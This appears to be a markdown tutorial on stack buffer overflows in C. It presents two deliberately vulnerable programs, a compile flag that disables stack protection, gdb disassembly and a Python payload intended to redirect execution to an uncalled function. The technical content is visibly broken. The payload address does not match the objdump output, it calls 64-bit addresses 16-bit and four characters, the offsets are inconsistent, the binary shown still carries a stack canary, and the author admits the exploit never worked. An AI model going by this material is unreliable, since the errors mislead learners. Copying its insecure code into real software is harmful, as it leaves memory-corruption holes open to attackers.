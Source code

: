 # Buffer Overflow

Buffer overflow is a vulnerability where the buffer of one entity overflows into
another. This vulnerability is most prevalent in languages where memory
allocation is explicitly handled by the user, such as C and C++. Buffer overflow
can be used for binary exploitation.

One prominent example is when the buffer of one variable overflows into another,
which is demonstrated in the code below. This is due to `authenticated` being
declared after `password`.

```c
#include<string.h>
#include<stdio.h>

int main() {
  char password[4];
  int authenticated = 0;
  printf("\nEnter password:\n");
  scanf("%s", password);

  if (!strcmp(password, "abcd")) {
    authenticated = 1;
  }

  if (authenticated) {
    printf("\nAccess granted!");
  } else {
    printf("\nAccess denied!");
  }
}
```

As modern C compilers have some built in protections against overflow, this
program would have to be compiled as `gcc -fno-stack-protector -o vuln vuln.c`.
When running the program, access is granted for the password `abcd` but also for
any string that is longer than four characters.

Our next example is more surprising. Consider the following code snippet. Using
binary exploitation we can get `uncalled_function` to be executed.

```c
#include<stdio.h>
#include<string.h>

void uncalled_function() {
  printf("This function should never be called\n");
}

void called_function(char *args) {
  char buf[16];
  strcpy(buf, args);
  printf("Arg: %s\n", buf);
}

int main(int argc, char **argv) {
  if(argc >= 2) {
    called_function(argv[1]);
  }
  return 0;
}
```

The function can be run as

```sh
> gcc -o vuln.bin vuln.c
> ./vuln.bin $(python -c 'print("A"*16)')
```

We want to change the value of the `call` in the `main` function. We look up the
relative position of `call` in the disassembly code using the GNU debugger. On
my computer it is `35`.

```sh
> gdb -q ./vuln.bin
Reading symbols from ./vuln.bin...
(No debugging symbols found in ./vuln.bin)
(gdb) disas main
Dump of assembler code for function main:
   0x00000000000011df <+0>:	push   %rbp
   0x00000000000011e0 <+1>:	mov    %rsp,%rbp
   0x00000000000011e3 <+4>:	sub    $0x10,%rsp
   0x00000000000011e7 <+8>:	mov    %edi,-0x4(%rbp)
   0x00000000000011ea <+11>:	mov    %rsi,-0x10(%rbp)
   0x00000000000011ee <+15>:	cmpl   $0x1,-0x4(%rbp)
   0x00000000000011f2 <+19>:	jle    0x1207 <main+40>
   0x00000000000011f4 <+21>:	mov    -0x10(%rbp),%rax
   0x00000000000011f8 <+25>:	add    $0x8,%rax
   0x00000000000011fc <+29>:	mov    (%rax),%rax
   0x00000000000011ff <+32>:	mov    %rax,%rdi
   0x0000000000001202 <+35>:	call   0x117f <called_function>
   0x0000000000001207 <+40>:	mov    $0x0,%eax
   0x000000000000120c <+45>:	leave
   0x000000000000120d <+46>:	ret
End of assembler dump.
Dump of assembler code for function called_function:
   0x000000000000117f <+0>:	push   %rbp
   0x0000000000001180 <+1>:	mov    %rsp,%rbp
   0x0000000000001183 <+4>:	sub    $0x30,%rsp
   0x0000000000001187 <+8>:	mov    %rdi,-0x28(%rbp)
   0x000000000000118b <+12>:	mov    %fs:0x28,%rax
   0x0000000000001194 <+21>:	mov    %rax,-0x8(%rbp)
   0x0000000000001198 <+25>:	xor    %eax,%eax
   0x000000000000119a <+27>:	mov    -0x28(%rbp),%rdx
   0x000000000000119e <+31>:	lea    -0x20(%rbp),%rax
   0x00000000000011a2 <+35>:	mov    %rdx,%rsi
   0x00000000000011a5 <+38>:	mov    %rax,%rdi
   0x00000000000011a8 <+41>:	call   0x1030 <strcpy@plt>
   0x00000000000011ad <+46>:	lea    -0x20(%rbp),%rax
   0x00000000000011b1 <+50>:	mov    %rax,%rsi
   0x00000000000011b4 <+53>:	lea    0xe72(%rip),%rax        # 0x202d
   0x00000000000011bb <+60>:	mov    %rax,%rdi
   0x00000000000011be <+63>:	mov    $0x0,%eax
   0x00000000000011c3 <+68>:	call   0x1060 <printf@plt>
   0x00000000000011c8 <+73>:	nop
   0x00000000000011c9 <+74>:	mov    -0x8(%rbp),%rax
   0x00000000000011cd <+78>:	sub    %fs:0x28,%rax
   0x00000000000011d6 <+87>:	je     0x11dd <called_function+94>
   0x00000000000011d8 <+89>:	call   0x1050 <__stack_chk_fail@plt>
   0x00000000000011dd <+94>:	leave
   0x00000000000011de <+95>:	ret
```

Next up we need to find function address of `uncalled_function`. We accomplish
this using `objdump` and `grep`.

```sh
> objdump -d vuln.bin | rg uncalled_function
0000000000001169 <uncalled_function>:
```

Then we can construct our final command. We want to write to `36+4` positions (4
since my computer has 16 bit memory addresses which correspond to 4 ACII
characters). Then the command is:

```sh
> ./vuln.bin $(python -c 'print("A"*39 + "\x96\x11\x00\x00\x00\x00\x00\x00")')
This function should never be called
```

NB: I have not gotten this to work for myself yet but this should be one way of
doing it.
